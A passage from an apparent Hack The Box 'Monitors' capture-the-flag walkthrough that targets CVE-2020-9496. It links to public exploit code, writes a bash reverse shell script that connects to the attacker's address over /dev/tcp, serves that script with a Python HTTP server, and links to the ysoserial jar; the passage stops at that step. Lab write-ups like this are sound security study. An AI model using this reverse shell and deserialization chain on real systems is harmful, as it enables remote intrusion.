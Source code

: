 ![](Images/Pasted%20image%2020210628125641.png)

After searching for hours got a exploit.

```bash
Exploit : 
https://github.com/g33xter/CVE-2020-9496
https://www.programmersought.com/article/93188263701/
```

**Step 1:** Create a Shell File.

```java
┌─[R4hn1]─[10.10.14.12]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Monitors]
└────╼ # cat shell.sh 
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.12/9999 0>&1
```

**Step 2:** Enable Http Server

```java
┌─[R4hn1]─[10.10.14.12]─[root@V0ld3rm0rt]─[~/Walkthrough/HTB/Monitors]
└────╼ # python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

**Step 3:** Download YsoSerial Jar

```bash
https://github.com/frohoff/ysoserial
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
